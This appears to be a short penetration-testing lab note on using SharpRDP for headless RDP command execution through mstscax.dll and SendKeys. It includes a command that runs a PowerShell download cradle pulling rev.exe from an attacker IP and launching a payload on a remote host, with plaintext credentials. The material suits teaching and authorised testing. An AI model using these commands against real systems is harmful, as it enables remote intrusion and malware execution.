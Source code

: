 # headless RDP with SharpRDP

The RDP application (mstsc.exe) builds upon the terminal services library mstscax.dll. this library exposes interfaces to both scripts and compiled code through COM objects.&#x20;

## <mark style="color:red;">SharpRDP</mark>

{% embed url="https://github.com/0xthirteen/SharpRDP" %}

SharpRDP is a C# application that uses uses the non-scriptable interfaces exposed by `mstscax.dll` to perform authentication in the same way as `mstsc.exe`. Once authentication is performed, SharpRDP allows us to execute code through `SendKeys`. In this manner, no GUI access is required and setting up a reverse tunnel is unnecessary.

```
SharpRDP.exe computername=appsrv01 command=notepad username=corp1\dave password=lab
```

Executing a PowerShell download cradle on remote system:

```
sharprdp.exe computername=client2 command="powershell (New-Object
System.Net.WebClient).DownloadFile('http://192.168.119.120/rev.exe',
'C:\Windows\Tasks\rev.exe'); C:\Windows\Tasks\met.exe" username=client1\dave
password=passwd.123
```
